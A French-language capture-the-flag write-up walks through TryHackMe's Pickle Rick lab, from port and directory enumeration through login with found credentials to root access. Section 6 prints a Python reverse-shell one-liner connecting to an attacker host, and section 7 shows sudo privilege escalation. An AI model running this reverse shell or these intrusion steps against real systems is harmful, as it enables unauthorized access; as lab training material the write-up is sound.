# **CTF Write-Up: Pickle Rick**

## **Description**
Write-up détaillé pour résoudre le challenge *Pickle Rick* de TryHackMe. Toutes les étapes, outils, et captures d’écran sont inclus.

---

## **Étapes de Résolution**

### **1. Analyse initiale du serveur**
- **Ping :** Vérification que le serveur est actif.
- **Nmap scan :**
  ```bash
  nmap -sV -p- <IP-CIBLE>
  ```
  - **Résultats :**
    - Port 80 : HTTP (Apache/2.4.41)
    - Port 22 : SSH



---

### **2. Exploration de la page web**
- **Inspection du code source :** J’ai analysé le code source de la page web et trouvé un indice important :
  - **Nom d’utilisateur :** `R1ckRul3s`



---

### **3. Recherche des répertoires cachés**

#### **Étape 1 : Utilisation de Gobuster**
J’ai commencé avec **Gobuster** pour découvrir les répertoires et fichiers cachés sur le serveur. Voici la commande que j’ai utilisée :

```bash
gobuster dir -u http://<IP-CIBLE>/ -w <wordlist>
```

- **Résultat :** Gobuster n’a pas trouvé de répertoires exploitables. J’ai réalisé que le problème pouvait venir de la liste de mots utilisée (`wordlist`) qui n’était peut-être pas adaptée au contexte.



---

#### **Étape 2 : Passer à Dirb**
Pour vérifier si le problème venait de l’outil ou de la liste, j’ai décidé d’utiliser **Dirb**, un autre outil d’énumération de répertoires. Voici la commande que j’ai utilisée :

```bash
dirb http://<IP-CIBLE>/ <wordlist>
```

- **Résultat :** Dirb a trouvé plusieurs chemins, notamment un fichier `/robots.txt`.



---

#### **Étape 3 : Analyse de `/robots.txt`**
En accédant au fichier `/robots.txt`, j’ai trouvé la chaîne suivante :
```
Wubbalubbadubdub
```

Cela ressemblait fortement à un mot de passe ou à un indice. J’ai essayé d’utiliser cette chaîne comme mot de passe pour me connecter au serveur SSH, mais cela a échoué. En effet, le serveur SSH exigeait une clé RSA pour la connexion.



---

#### **Étape 4 : Réflexion et leçons apprises**
Après cet échec, voici ce que j’ai appris :
1. **Liste de mots adaptée :** L’utilisation d’une wordlist spécifique pour Dirb a permis de découvrir des répertoires que Gobuster n’avait pas trouvé.
2. **Analyse méthodique :** La découverte de `/robots.txt` m’a permis de progresser en obtenant un nouvel indice.
3. **Persévérance :** Même si `Wubbalubbadubdub` n’était pas utilisable immédiatement, je savais qu’il pouvait être pertinent dans une autre partie du challenge.

---

### **4. Scan avec Nikto**
Après avoir exploré `/robots.txt`, j’ai décidé de scanner le serveur avec **Nikto** pour découvrir des fichiers ou répertoires supplémentaires. Voici la commande utilisée :

```bash
nikto -h http://<IP-CIBLE>/
```

- **Résultats :** Nikto a révélé la présence d’un fichier `/login.php`, ce qui m’a permis de progresser.



---

### **5. Connexion au panneau de contrôle**
- **Identifiants utilisés :**
  - **Nom d’utilisateur :** `R1ckRul3s`
  - **Mot de passe :** `Wubbalubbadubdub`
- **Résultat :** J’ai pu me connecter avec succès au fichier `/login.php` et accéder au panneau de contrôle.



---

### **6. Exploitation avec Reverse Shell**
- **Vérification de Python 3 sur la cible :**
  ```bash
  which python3
  ```
- **Reverse shell envoyé depuis le site :**
  ```bash
  python3 -c 'import socket,os; s=socket.socket(); s.connect(("IP-ATTAQUANT",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); os.system("/bin/bash")'
  ```
- **Netcat en écoute sur l’attaquant :**
  ```bash
  nc -lvnp <PORT>
  ```
- **Résultat :** Shell interactif avec les permissions `www-data`.




---

### **7. Escalade de privilèges**
- **Analyse des permissions sudo :**
  ```bash
  sudo -L
  ```
  - **Résultats :** Permissions root disponibles.
- **Commande pour devenir root :**
  ```bash
  sudo bash -i
  ```
- **Résultat :** Accès root obtenu.



---

### **8. Exploration finale**
- **Recherche dans le répertoire root :**
  - Découverte du troisième et dernier flag.


---

## **Résumé des Flags**
1. **Flag 1 :** Contenu trouvé dans le fichier robot.txt`.
2. **Flag 2 :** Contenu du fichier `clue.txt`.
3. **Flag 3 :** Contenu trouvé dans le répertoire `/root`.

---

## **Outils et Commandes Utilisés**
- **Nmap** : Pour énumérer les ports et services.
- **Netcat** : Vérification de la connectivité.
- **Gobuster/Dirb** : Énumération de répertoires.
- **Nikto** : Scan de vulnérabilités sur le serveur web.
- **Reverse Shell** : Exploitation pour obtenir un shell interactif.
- **Sudo** : Escalade de privilèges pour devenir root.



## **Licence**
Ce write-up est partagé à titre éducatif uniquement. Veuillez respecter les lois et ne pas utiliser ces techniques sans autorisation.


